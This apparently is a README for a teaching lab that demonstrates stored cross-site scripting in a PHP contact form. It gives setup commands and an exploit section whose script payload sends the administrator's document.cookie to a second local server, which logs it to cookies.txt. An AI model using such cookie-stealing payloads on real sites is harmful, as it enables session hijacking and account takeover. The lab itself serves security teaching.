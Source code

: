 # XSS vulnerability
This repository is a simple example of a XSS vulnerability on a PHP website.

This try to represent a tipical contact form on a website, where the user can send a message to the website administrator. The administrator have a page where he can read all the messages sent by the users.

## Setup the lab

### Docker (recommended)
1. Clone the repository

2. Launch the docker container with the following command:

```bash
docker build -t xss-vulnerability .
docker run -p 80:80 --name xss-vulnerability xss-vulnerability
```

3. Open your browser and go to `http://localhost`

### Manual
1. Clone the repository

2. Install PHP

3. Run the following command:

```bash
php -S localhost:80
```

4. Open your browser and go to `http://localhost:80`

## Exploit the vulnerability

1. Open your browser and go to `http://localhost`

2. Lanuch a PHP server with the following command:

```bash
php -S localhost:8080
```
3. Now fill the form with the following payload:

```html
<script> new Image().src="http://localhost:8080/cookie-hijacking.php?cookie="+document.cookie; </script>
```

4. Click on the "Admin" link and you will see the cookie of the administrator in the terminal where you launched the PHP server and in the `cookies.txt` file.